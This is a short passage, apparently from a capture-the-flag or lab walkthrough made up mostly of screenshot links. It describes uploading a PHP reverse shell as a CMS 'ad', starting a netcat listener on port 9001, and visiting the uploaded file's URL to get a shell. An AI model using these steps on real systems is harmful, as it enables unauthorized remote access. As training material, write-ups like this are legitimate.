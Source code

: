 ![alt text](images/image-36.png)

After adding this ads namely "revshell",I run the following command to listen to port 9001.

> nc -lvnp 9001

![alt text](images/image-37.png)

Then I go to the following address:

> http://[target]/content/inc/ads/revshell.php

![Got it!](images/image-38.png)
